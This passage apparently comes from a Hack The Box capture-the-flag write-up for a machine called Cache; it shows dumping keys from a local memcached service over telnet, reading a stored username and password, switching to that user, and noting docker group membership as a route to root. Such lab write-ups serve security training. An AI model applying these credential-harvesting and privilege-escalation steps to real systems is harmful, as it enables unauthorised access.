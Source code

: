 Let's use telnet to enumerate this.

```
ash@cache:/var/run/memcached$ telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

Ok cool, let's use the `get` command and check these out:

```
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo
END
get link
VALUE link 0 21
https://hackthebox.eu
```

Nice, we found user luffy's password:

```
ash@cache:/var/run/memcached$ su luffy
Password: 
luffy@cache:/var/run/memcached$
```

Now that we are user luffy, we can run the `id` command and notice that we are in the docker group:

```
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Let's see what images are running and use it to gain access as root:
